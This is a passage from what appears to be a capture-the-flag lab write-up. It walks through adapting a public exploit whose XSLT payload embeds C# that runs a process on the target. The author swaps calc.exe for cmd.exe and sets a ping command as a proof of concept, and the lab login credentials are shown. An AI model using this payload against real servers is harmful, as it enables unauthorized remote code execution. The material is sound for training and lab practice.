 #### Customize Exploit

The exploit requires some customization to get it working, all of this goes in
this section:

    
    
    # Execute a calc for the PoC
    payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
    xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
    <msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
    { string cmd = ""; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
     proc.StartInfo.FileName = "calc.exe"; proc.StartInfo.Arguments = cmd;\
     proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
     proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
     </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
     </xsl:template> </xsl:stylesheet> ';
    
    login = "XXXX";
    password="XXXX";
    host = "XXXX";
    

I’ll update the `login` to “admin@htb.local”, the `password` to
“baconandcheese”, and the `host` to “http://10.10.10.180” (originally I just
had the IP, but that leads to an error).

I’ll also need to update the `payload`. It currently launched calc. Obviously
I want to change that. I’ll focus on this section (with some added
whitespace):

    
    
    { string cmd = ""; 
     System.Diagnostics.Process proc = new System.Diagnostics.Process();
     proc.StartInfo.FileName = "calc.exe"; 
     proc.StartInfo.Arguments = cmd;
     proc.StartInfo.UseShellExecute = false; 
     proc.StartInfo.RedirectStandardOutput = true;
     proc.Start(); 
     string output = proc.StandardOutput.ReadToEnd(); 
     return output; }
    

I find with things like this that I have the most luck if I run `cmd.exe`. So
I’ll change `proc.StartInfo.FileName = "calc.exe"` to `proc.StartInfo.FileName
= "cmd.exe"`. Just after that, there’s `proc.StartInfo.Arguments = cmd;`. The
variable `cmd` is set right at the beginning, currently to the empty string.

#### Ping POC

As a proof of concept, I’ll set `cmd = "/c ping 10.10.14.19"`. On running, it
prints some messages:

    